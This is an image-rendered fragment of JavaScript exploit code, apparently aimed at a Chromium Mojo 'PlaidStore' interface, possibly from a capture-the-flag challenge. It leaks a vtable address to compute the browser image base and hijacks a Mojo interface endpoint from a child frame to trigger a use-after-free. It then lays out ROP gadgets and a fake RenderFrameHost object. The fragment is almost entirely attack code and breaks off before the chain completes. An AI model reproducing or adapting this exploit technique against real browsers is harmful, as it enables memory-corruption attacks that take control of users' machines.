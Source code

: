 ```html
            }

            var iframe;
            var vtable_addr;
            var RFH_addr;
            var image_base = [];

            var victim_interface_name = "victim";
            
            OOB()
            .then((addr_array) => {
                if(addr_array == "child")   return Promise.reject("child");
                //display the addresses leaked by OOB();
                vtable_addr = addr_array[0];
                RFH_addr = addr_array[1];
                if (typeof(vtable_addr) != "undefined"){
                    console.log("[+] The address of vtable: " + tohex64(vtable_addr));
                    image_base[0] = vtable_addr[0] - 0x9fb67a0;
                    image_base[1] = vtable_addr[1];
                    console.log("[+] The address of image base: " + tohex64(image_base));
                    console.log("[+] The address of RFH: " + tohex64(RFH_addr));
                }
                else throw new Error("[!] fail to leak!");

                return new Promise((resolve, reject) => {
                    //register the InterfaceInterceptor for the process scope in parent
                    var interceptor = new MojoInterfaceInterceptor(victim_interface_name, "process");
                    var plaid_store_ptr;
                    interceptor.oninterfacerequest = (e) => {
                        //hijack!!!
                        interceptor.stop();
                        plaid_store_ptr = new blink.mojom.PlaidStorePtr(e.handle);
                        resolve(plaid_store_ptr);
                    };
                    //start to intercept all the transfer of interface endpoint
                    interceptor.start();
                    //after registering the interceptor, we notify the child frame
                    //to create two new endpoints and transfer them
                    //and hijack the remote endpoint during the transfer 

                    window.frames[0].postMessage("UAF", "*");
                });
            })
            //when this section of code is executed, it means that we've already get the 
            //victim message pipe in parent frame and we can release the child frame to trigger the UAF
            .then(child_mojo_ptr => {
                image_base = BigInt(image_base[0]) + (BigInt(image_base[1]) << 32n);
                RFH_addr = BigInt(RFH_addr[0]) + (BigInt(RFH_addr[1]) << 32n);
                var xchg = image_base+0x880dee8n; // xchg rsp, rax; clc; pop rbp; ret;

                var pop_rdi_ret = image_base+0x2e4630fn;

                var pop_rsi_ret = image_base+0x2d278d2n;

                var pop_rdx_ret = image_base+0x2e9998en;

                var pop_rax_ret = image_base+0x2e651ddn;

                var syscall = image_base+0x2ef528dn;
                var fake_RFH = new ArrayBuffer(0xc28);
                var fake_RFH_8_byte = new BigUint64Array(fake_RFH);
```